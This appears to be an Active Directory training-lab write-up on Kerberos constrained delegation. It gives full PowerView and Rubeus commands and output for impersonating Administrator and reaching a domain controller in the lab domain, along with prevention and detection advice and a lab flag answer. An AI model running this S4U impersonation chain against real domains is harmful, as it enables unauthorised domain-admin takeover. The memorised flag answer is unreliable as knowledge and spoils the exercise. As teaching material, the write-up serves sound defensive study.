

import RevealFlag from '@site/src/components/RevealFlag';

# Kerberos Constrained Delegation

## Description

`Kerberos Delegation` enables an application to access resources hosted on a different server; for example, instead of giving the service account running the web server access to the database directly, we can allow the account to be delegated to the SQL server service. Once a user logs into the website, the web server service account will request access to the SQL server service on behalf of that user, allowing the user to get access to the content in the database that they’ve been provisioned to without having to assign any access to the web server service account itself.

We can configure three types of delegations in Active Directory:

- `Unconstrained Delegation` *(most permissive/broad)*
- `Constrained Delegation`
- `Resource-based Delegation`

Knowing and understanding that `any` type of delegation is a possible security risk is paramount, and we should avoid it unless necessary.

As the name suggests, `unconstrained delegation` is the most permissive, allowing an account to delegate to any service. In `constrained delegation`, a user account will have its properties configured to specify which service(s) they can delegate. For `resource-based delegation`, the configuration is within the computer object to whom delegation occurs. In that case, the computer is configured as `I trust only this/these accounts`. It is rare to see `Resource-based delegation` configured by an Administrator in production environments *(threat agents often abuse it to compromise devices)*. However, `Unconstrained` and `Constrained` delegations are commonly encountered in production environments.

---

## Attack

We will only showcase the abuse of `constrained delegation`; when an account is trusted for delegation, the account sends a request to the `KDC` stating, "Give me a Kerberos ticket for user YYYY because I am trusted to delegate this user to service ZZZZ", and a Kerberos ticket is generated for user YYYY (without supplying the password of user YYYY). It is also possible to delegate to another service, even if not configured in the user properties. For example, if we are trusted to delegate for `LDAP`, we can perform protocol transition and be entrusted to any other service such as `CIFS` or `HTTP`.

To demonstrate the attack, we assume that the user `web_service` is trusted for delegation and has been compromised. The password of this account is `Slavi123`. To begin, we will use the `Get-NetUser` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to enumerate user accounts that are trusted for constrained delegation in the domain:

:::note
Note: Throughout the exercise, please use the `PowerView-main.ps1` located in `C:\Users\bob\Downloads` when enumerating with the `-TrustedToAuth` parameter.
:::

```powershell
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth

logoncount                    : 23
badpasswordtime               : 12/31/1601 4:00:00 PM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 10/13/2022 2:12:22 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```


We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` **can request a Kerberos ticket for any user in Active Directory** and **use it to connect to** `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password `Slavi123` into its `NTLM hash` equivalent:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


> Then, we will use `Rubeus` to get a `ticket` for the `Administrator` account:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```


> To confirm that `Rubeus` injected the ticket in the current session, we can use the `klist` command:

```powershell
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```


With the ticket being available, we can connect to the Domain Controller impersonating the account `Administrator`:

```powershell
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```


If the last step fails (we may need to do `klist purge`, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the `/altservice` argument, such as `LDAP`, `CFIS`, `time`, and `host`.

---

## Prevention

Fortunately, when designing Kerberos Delegation, Microsoft implemented several protection mechanisms; however, it did not enable them by default to any user account. There are two direct ways to prevent a ticket from being issued for a user via delegation:

- Configure the property `Account is sensitive and cannot be delegated` for **all privileged users**.
- Add privileged users to the `Protected Users` group: **this membership automatically applies the protection mentioned above** *(however, it is not recommended to use Protected Users without first understanding its potential implications)*.

We should treat **any account configured for delegation** as `extremely privileged`, regardless of its actual privileges *(such as being only a Domain user)*. `Cryptographically secure passwords are a must`, as we don't want `Kerberoasting` giving threat agents an account with delegation privileges.

---

## Detection

Correlating users' behavior is the best technique to detect `constrained delegation` abuse. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other *(suspicious)* behaviors—for example, consider the account `Administrator` in the attack described above. If a mature organization uses `Privileged Access Workstations (PAWs)`, they should be alert to any privileged users not authenticating from those machines, proactively monitoring [events with the ID 4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624) *(successful logon)*.

In some occasions, a successful logon attempt with a delegated ticket will contain information about the ticket's issuer under the `Transited Services` attribute in the events log. This attribute is normally populated if the logon resulted from an `S4U (Service For User)` logon process.

`S4U` is **a Microsoft extension** to the `Kerberos protocol` that allows an application service **to obtain a Kerberos service ticket on behalf of a user**; if we recall from the attack flow when utilizing `Rubeus`, we specified this `S4U` extension. Here is an example logon event by using the web service to generate a ticket for the user Administrator, which then was used to connect to the Domain Controller *(precisely as the attack path above)*:


---

## Questions

### `1. Use the techniques shown in this section to gain access to the DC1 domain controller and submit the contents of the flag.txt file.`

<RevealFlag>{`C0nsTr@in3D_F1@G_Dc01!`}</RevealFlag>

#### PowerView

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```powershell
. .\PowerView-main.ps1
```

```powershell
Get-NetUser -TrustedToAuth
```



> `user : webservice`

```powershell
.\Rubeus.exe hash /password:Slavi123
```

```txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

> `NTLM Hash : FCDC65703DD2B0BD789977F1F3EEAECF`

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

<details>
<summary>🔥 What happens 🔥</summary>

1. Using a **`stolen NTLM hash`** (`webservice` account) to..
    - **Authenticate** against Active Directory,
    - **Request a Kerberos ticket** to impersonate the `Administrator` user,
    - **Obtain and inject** that ticket automatically into your current session (`pass-the-ticket`),
    - **Without needing** the Administrator's password at any point.

> This gives you **full Administrator-level** `Kerberos authentication`, using only the hash of a lower-privileged service account (webservice).

```txt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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


[*] Action: S4U

[*] Using domain controller: dc1.eagle.local (172.16.18.3)
[*] Building S4U2self request for: 'webservice@EAGLE.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'webservice@EAGLE.LOCAL'
[*] base64(ticket.kirbi):

      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
      Gwp3ZWJzZXJ2aWNl

[*] Impersonating user 'Administrator' to target SPN 'http/dc1'
[*] Using domain controller: dc1.eagle.local (172.16.18.3)
[*] Building S4U2proxy request for service: 'http/dc1'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/dc1':

      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
[+] Ticket successfully imported!
```

</details>

#### `klist` - To check if it works

```powershell
klist

Current LogonId is 0:0xd3a62

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/28/2025 12:21:46 (local)
        End Time:   4/28/2025 22:21:46 (local)
        Renew Time: 5/5/2025 12:21:46 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### `Enter-PSSession` on Domain Controller

```powershell
Enter-PSSession dc1
```

```powershell
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents> dir


    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/5/2023   1:15 PM             22 flag.txt


[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt
<Flag-Is-Here>
```